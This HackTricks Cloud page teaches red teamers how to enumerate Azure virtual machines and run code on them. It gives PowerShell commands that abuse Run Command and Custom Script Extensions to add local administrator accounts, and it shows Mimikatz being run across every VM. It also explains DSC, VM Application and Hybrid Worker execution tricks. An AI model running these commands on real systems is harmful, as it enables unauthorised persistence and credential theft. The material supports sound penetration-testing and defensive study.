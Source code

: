# Az - Virtual Machines

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic information

Azure virtual machines are one of several types of [on-demand, scalable computing resources](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) that Azure offers. Typically, you choose a virtual machine when you need more control over the computing environment than the other choices offer. This article gives you information about what you should consider before you create a virtual machine, how you create it, and how you manage it.

## Enumeration

```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```

## **Run commands in a VM**

### **AAD Login in VM**

It's possible to allow access to users authenticated via AzureAD. For example trying to access a **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (it's important to **use the email** with the azurecorp used when trying to login) you could get an error like:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Just **follow those instructions** going to [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) and indicating the code, use the email and password as credentials and you will be able to connect via SSH (if that user has enough permissions to do so: `Virtual Machine Administrator Login` or `Virtual Machine User Login` role).

### **Run Command**

```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd 
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

### **Run Custom Script Extension**

Azure virtual machine (VM) extensions are **small applications** that provide post-deployment configuration and automation **tasks** on **Azure VMs**. For example, if a virtual machine requires software installation, antivirus protection, or the ability to run a script inside it, you can use a VM extension.

Therefore, if you have access to write it, you can execute arbitrary code:

```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```

### DesiredConfigurationState

**DesiredConfigurationState (DSC)** is similar to Ansible, but is a tool within PowerShell that allows a host to be setup through code. DSC has its own extension in Azure which allows the upload of **configuration files**. DSC [configuration files](https://docs.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1#define-a-configuration-and-generate-the-configuration-document) are quiet picky when it comes to syntax, however the DSC extension is very gullible and will **blindly execute any command** anything as long as it follows a certain format, as shown in figure 5.

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

This can be done via the **Az PowerShell** function [**`Publish-AzvmdscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0). The DSC extension requires a **.PS1** with a **function** and **packaged** in a **.zip** file. Since this actually isn’t correct DSC syntax, the extension status will read as “failure”, however the code will be executed. The issue with this is that there is no output of the command, as the status is overwritten with the failure message.

### VM Application Definitions

The [VM Applications](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications) resource is a way to **deploy versioned applications repeatably** to an Azure VM. For example, if you create a **program** and **deploy** it to all Azure VMs as version 1.0, once you **update** the program **to 1.1**, you can use the same VM Application to **create another definition** and push the update out to any VM.\
Being able to **push out an application** to a VM means it’s another avenue for **code execution**. This method’s drawback is that setting up the Application Definition [**requires a few steps**](https://docs.microsoft.com/en-us/azure/virtual-machines/vm-applications-how-to?tabs=portal), but can be accomplished using the **`New-AzGalleryApplication`** and **`New-AzGalleryApplicationVersion`** cmdlets in Az PowerShell.

This technique works by utilizing an **extension “VMAppExtension”** which is automatically installed when applying an application to a VM. The extension downloads the file from the URI to disk as the name of the Application _exactly_, meaning if application name is ‘AzApplication’, the file on disk is also called ‘AzApplication’ with no extension. This requires the “ManageActions” field in the [REST API call](https://docs.microsoft.com/en-us/rest/api/compute/gallery-application-versions/create-or-update) to be configured to rename the application with the appropriate extension. If you don’t want to run an entire application, arbitrary PowerShell commands can be run by also abusing the ManageActions field in the same REST API method or also through the Azure Portal. Once set up, the definition will be similar to figure 8.

<figure><img src="../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

This execution technique is unfortunately slow (about 3-4 minutes to execute an app or command), however with it being relatively new I would be surprised if there’s any specific detections written.

Since it’s an extension that ultimately does the execution, a copy of the application is located at `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` and the status of the execution is kept in `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`.

### Hybrid Worker Groups

[**Hybrid Worker Groups**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) (HWGs) allow a configured **Runbook** in an Automation Account to be **ran** on an **Azure Virtual machine** that is part of the **configured HWG**. Once again, an **extension is used** on the VM to deploy the Runbook code onto the VM. Since an extension is used, credentials are irrelevant and the code is executed as **SYSTEM** or root.

<figure><img src="../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

If using a Windows 10 VM, it’s important to have the Runbook run as PowerShell Version 5.1 instead of 7.1, as 7.1 isn’t installed on the VMs by default and the script will fail to run.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
